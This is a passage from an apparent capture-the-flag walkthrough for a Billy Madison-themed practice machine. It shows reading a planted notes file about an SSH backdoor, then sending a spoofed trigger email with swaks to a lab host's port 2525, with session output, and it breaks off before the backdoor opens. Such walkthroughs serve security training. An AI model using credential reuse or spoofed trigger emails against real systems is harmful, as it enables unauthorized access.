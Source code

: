 <p>Great, we have access! I logged using previously known eric password credentials. We have some interesting files, but in the beginning, let's view <b>.notes</b>. </p>

{% highlight bash %}
root@kali:~/Documents# cat .notes
Ugh, this is frustrating.  

I managed to make a system account for myself. I also managed to hide Billy's paper
where he'll never find it.  However, now I can't find it either :-(.
To make matters worse, my privesc exploits aren't working.  
One sort of worked, but I think I have it installed all backwards.

If I'm going to maintain total control of Billy's miserable life (or what's left of it)
I need to root the box and find that paper!

Fortunately, my SSH backdoor into the system IS working.  
All I need to do is send an email that includes
the text: "My kid will be a ________ _________"

Hint: https://www.youtube.com/watch?v=6u7RsW5SAgs

The new secret port will be open and then I can login from there with my wifi password, which I'm
sure Billy or Veronica know.  I didn't see it in Billy's FTP folders, but didn't have time to
check Veronica's.

-EG

{% endhighlight %}

<h2>Backdoor</h2>

<p>Another cryptic riddle? This time it was a lot easier, since we can hear phrase <b>My kid will be a soccer player</b> in the video. We can now send an email using <b>swaks</b>. But to which port? </p>

<p>By looking once again at .cap file we can see this line: </p>

{% highlight bash %}
Transmission Control Protocol, Src Port: 42278 (42278), Dst Port: 2525 (2525), Seq: 12, Ack: 78, Len: 36
{% endhighlight %}

<p>Destination port <b>2525</b>. Let's construct this email! </p>

{% highlight bash %}
root@kali:~# swaks --to eric@madisonhotels.com --from vvaughn@polyfector.edu --server 10.0.2.4:2525 --body "My kid will be a soccer player" --header "Subject: My kid will be a soccer player"
=== Trying 10.0.2.4:2525...
=== Connected to 10.0.2.4.
<-  220 BM ESMTP SubEthaSMTP null
 -> EHLO kali
<-  250-BM
<-  250-8BITMIME
<-  250-AUTH LOGIN
<-  250 Ok
 -> MAIL FROM:<vvaughn@polyfector.edu>
<-  250 Ok
 -> RCPT TO:<eric@madisonhotels.com>
<-  250 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Mon, 13 Mar 2017 15:08:57 -0400
 -> To: eric@madisonhotels.com
 -> From: vvaughn@polyfector.edu
 -> Subject: My kid will be a soccer player
 -> X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
 ->
 -> My kid will be a soccer player
 ->
 -> .